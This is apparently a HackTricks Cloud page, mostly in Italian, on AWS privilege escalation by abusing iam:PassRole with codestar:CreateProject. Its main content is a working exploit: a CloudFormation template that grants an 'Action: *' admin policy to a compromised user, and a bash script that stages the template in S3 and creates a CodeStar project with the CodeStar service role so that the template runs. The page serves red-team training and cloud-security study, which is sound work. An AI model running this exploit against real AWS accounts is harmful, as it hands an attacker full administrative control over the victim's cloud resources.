 # iam:PassRole, codestar:CreateProject

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Con queste autorizzazioni puoi **abusare di un ruolo IAM di codestar** per eseguire **azioni arbitrarie** tramite un **modello cloudformation**.

Per sfruttare questo, devi creare un **bucket S3 accessibile** dall'account attaccato. Carica un file chiamato `toolchain.json`. Questo file dovrebbe contenere l'**exploit del modello cloudformation**. Il seguente può essere utilizzato per impostare una policy gestita a un utente sotto il tuo controllo e **dargli permessi di amministratore**:

{% code title="toolchain.json" %}
```json
{
"Resources": {
"supercodestar": {
"Type": "AWS::IAM::ManagedPolicy",
"Properties": {
"ManagedPolicyName": "CodeStar_supercodestar",
"PolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "*",
"Resource": "*"
}
]
},
"Users": [
"<compromised username>"
]
}
}
}
}
```
{% endcode %}

Inoltre, **carica** questo file `empty zip` nel **bucket**:

{% file src="../../../../.gitbook/assets/empty.zip" %}

Ricorda che il **bucket con entrambi i file deve essere accessibile dall'account vittima**.

Con entrambe le cose caricate, puoi ora procedere all'**exploitation** creando un progetto **codestar**:
```bash
PROJECT_NAME="supercodestar"

# Crecte the source JSON
## In this JSON the bucket and key (path) to the empry.zip file is used
SOURCE_CODE_PATH="/tmp/surce_code.json"
SOURCE_CODE="[
{
\"source\": {
\"s3\": {
\"bucketName\": \"privesc\",
\"bucketKey\": \"empty.zip\"
}
},
\"destination\": {
\"codeCommit\": {
\"name\": \"$PROJECT_NAME\"
}
}
}
]"
printf "$SOURCE_CODE" > $SOURCE_CODE_PATH

# Create the toolchain JSON
## In this JSON the bucket and key (path) to the toolchain.json file is used
TOOLCHAIN_PATH="/tmp/tool_chain.json"
TOOLCHAIN="{
\"source\": {
\"s3\": {
\"bucketName\": \"privesc\",
\"bucketKey\": \"toolchain.json\"
}
},
\"roleArn\": \"arn:aws:iam::947247140022:role/service-role/aws-codestar-service-role\"
}"
printf "$TOOLCHAIN" > $TOOLCHAIN_PATH

# Create the codestar project that will use the cloudformation epxloit to privesc
aws codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME \
--source-code file://$SOURCE_CODE_PATH \
--toolchain file://$TOOLCHAIN_PATH
```
Questo exploit si basa sul **Pacu exploit di questi privilegi**: [https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam\_\_privesc\_scan/main.py#L1997](https://github.com/RhinoSecurityLabs/pacu/blob/2a0ce01f075541f7ccd9c44fcfc967cad994f9c9/pacu/modules/iam__privesc_scan/main.py#L1997) Su di esso puoi trovare una variazione per creare una policy gestita da admin per un ruolo invece che per un utente.

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
